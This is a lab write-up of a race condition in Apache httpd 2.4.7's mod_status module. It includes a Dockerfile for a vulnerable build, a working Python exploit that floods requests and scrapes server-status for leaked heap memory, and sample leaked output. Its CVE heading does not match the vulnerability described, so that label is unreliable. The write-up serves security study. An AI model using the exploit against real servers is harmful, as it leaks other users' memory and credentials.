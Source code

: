 # CVE-2017-12615

## Description 
Race condition in the mod_status module in the Apache HTTP Server before 2.4.10 allows remote attackers to cause a denial of service (heap-based buffer overflow), or possibly obtain sensitive credential information or execute arbitrary code, via a crafted request that triggers improper scoreboard handling within the status_handler function in modules/generators/mod_status.c and the lua_ap_scoreboard_worker function in modules/lua/lua_request.c.

## Bug overview
![](CVE1-code_flow_diagram.png = 400x400)

## Environment setup
We are running the service (Apache 2.4.7) Docker Container with base OS Ubuntu 16.04. Apache httpd is compiled with MPM worker 
```
./configure --enable-mods-shared=reallyall --with-included-apr
```

The Dockerfile describes the environment deployed
```dockerfile
FROM ubuntu:16.04
RUN apt-get update
# some basic tools and the required libraries used to build the server
RUN apt-get -y install unzip wget git less subversion python libtool-bin libtool autoconf build-essential vim libxml2 libexpat1-dev libpcre3-dev
# apache version 2.4.7
RUN wget https://github.com/apache/httpd/archive/refs/tags/2.4.7.zip
RUN mkdir /apache
RUN unzip 2.4.7.zip -d /apache
WORKDIR /apache/httpd-2.4.7
# installing apache portable runtime libarary
RUN svn co http://svn.apache.org/repos/asf/apr/apr/trunk srclib/apr
RUN ./buildconf
RUN ./configure --enable-mods-shared=reallyall --with-included-apr
RUN make
RUN make install
# copying the apache configuration
COPY ./apache2 /etc/apache2/
COPY ./poc.py .
# Setting the server status and extended status
RUN echo 'SetHandler server-status\nExtendedStatus On' >> /usr/local/apache2/conf/httpd.conf
EXPOSE 80
```

After setting the server, everything looks like  
![](server1.png)
![](server2.png)

As we can see, the server logs the requests in the format  
`Server x-x (xxx): x|x|x [status] ... IP {REQUEST} [IP]` 
All we are interested in is the `{REQUEST}` field inside the curly brackets. We can safely ignore all other html tags and other fields in the response from the server while exploitation. 


## Exploit
```python
#!/usr/bin/env python
import httplib
import sys
import threading
import subprocess
import random
import re

INTERESTING = re.compile('\{(.*)\}')
# everything inside curly brackets {} as it would be the
# content we would get back from the scoreboard because of
# its log format

def find_leaks(string):
    leaks = []
    match = re.findall(INTERESTING,string)
    for leak in match:
        # if some string which is not fully our spam AAAA
        # or if it contaions notables its our original request
        if not leak or 'AAAA' in leak or 'notables' in leak:
            continue
        else:
            leaks.append(leak)
    if leaks:
        print(leaks)

def send_request(method, url):
    try:
        c = httplib.HTTPConnection('127.0.0.1', 80)
        c.request(method,url);
        if "foo" in url:
            find_leaks(c.getresponse().read())
        c.close()
    except Exception as e:
        print(e)
        pass

def mod_status_thread():
    while True:
        send_request("GET", "/foo?notables")

def requests():
    """
    Spamming ill-requests till we encounter a race condition
    """
    evil = ''.join('A' for i in range(random.randint(0, 1024)))
    while True:
        send_request(evil, evil)

# thread for mod status 
threading.Thread(target=mod_status_thread).start()
# 
threading.Thread(target=requests).start()
```


## Info Leak
After running the exploit for a while (after encountring a couple of race conditions), we gather a couple of info leak samples which are either some memory location (by the look of it 0x7fecXXXX) or some other memory available at the heap
```
['A\xb7\x04\x9ce\x7f']
['A4']
['A']
['A\xfc\x01pe\x7f']
['A2]`[26/Mar/2021:01:00:22 +0000]']
['A2:80']
['A\x9b\x01te\x7f']
['A________________                                       _________________________                                       ................................                                .........................                                       .........................
                          \x18']
```
Hence, we are in fact able to leak out information from the heap, which may in turn contain other unintentional information. However, the race condition is quite hard and rare to trigger, we were not able to develop and trigger an RCE, which is theoretically possible but significantly more invloved than standard binary exploitation. Moreover DOS might also not be demonstratable under the given setup without heavy traffic and the server wont crash since as soon as a thread ends up in race condition and is killed, apache server churns up a new thread in place of it. 
